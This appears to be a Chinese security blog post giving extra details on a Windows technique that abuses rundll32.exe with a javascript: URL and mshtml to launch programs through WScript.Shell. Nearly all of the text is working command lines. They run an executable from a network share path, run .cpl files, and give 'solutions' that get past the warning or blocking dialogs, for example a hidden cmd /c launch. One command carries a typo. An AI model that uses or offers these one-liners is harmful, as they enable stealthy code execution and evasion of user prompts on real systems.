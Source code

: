 补充一些rundll32调用js代码的细节;

**执行远程exe,会弹框拦截：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("\\\\127.0.0.1\\c$\\test\\test.exe")

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/623040b862e2f5cda9f164fc89c6e89910d48da0.jpg)

**解决方法：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Exec("\\\\127.0.0.1\\c$\\test\\test.exe")

```

如图![Alt text](http://drops.javaweb.org/uploads/images/2b9db29a8ecd59d044334126bf32ae6af5b182c0.jpg)

**执行本地cpl文件，会弹框提示无法识别文件后缀名：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("c:\\test\\cpl.cpl")

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/211f1aee8fc238d336613399129384704d4f85eb.jpg)

**解决方法：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("cmd /c c:\\test\\cpl.cpl",0,true)

```

**遗留问题：**

**1、无法调用Shell.Application直接执行cpl文件：**

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new20%ActiveXObject("Shell.Application").ControlPanelItem("c:\\test\\cpl.cpl")

```

**2、无法远程调用cpl文件**

无法识别文件后缀：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Exec("\\\\127.0.0.1\\c$\\test\\cpl.cpl")

```
